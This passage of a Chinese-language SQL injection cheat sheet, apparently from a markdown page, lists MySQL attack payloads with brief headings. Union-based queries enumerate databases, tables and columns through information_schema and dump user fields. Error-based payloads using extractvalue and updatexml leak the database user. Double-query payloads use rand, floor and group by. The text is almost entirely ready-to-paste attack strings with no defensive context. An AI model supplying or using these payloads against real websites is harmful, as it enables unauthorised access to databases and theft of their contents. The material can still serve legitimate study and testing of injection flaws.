 ```
and 1=2 union select version(),2,3
```
查询所有数据库

```
and 1=2 union select (select group_concat(schema_name)from information_schema.schemata),2,3
```
查询所有表名

```
union select (select group_concat(table_name)from information_schema.tables),2,3
#读当前数据库所有表名
union select (select group_concat(table_name)from information_schema.tables where table_schema=database()),2,3
```
查询所有字段名

```
union select (select group_concat(column_name)from information_schema.columns),2,3
#读当前数据，key表的所有字段名
union select (select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='key'),2,3
```
查询字段内容

```
#查询test库下users表的id及uname字段，用'~'区分id和uname以防字符连接到一起
union select(select group_concat(id,'~',uname)from test.users),2,3
```
#### 报错注入
通用报错语句：（测试版本MySQL8.0.12，MySQL5.0，mariadb5.5版本下）

```
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
select * from test where id=1 and (extractvalue(1,concat('~',(select user()),'~')));
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```
#### 双查询注入
双注入查询需要理解四个函数/语句
1. Rand() //随机函数
2. Floor() //取整函数
3. Count() //汇总函数
4. Group by clause //分组语句

```
# 使用聚合函数进行双注入查询时，会在错误信息中显示一部分错误信息
# 构造双查询，比如派生表，使一个报错，另一个的结果就会出现在报错的信息中
select count(*), concat((select database()), floor(rand()*2))as a from information_schema.tables group by a;
select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a;
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a)x;
```
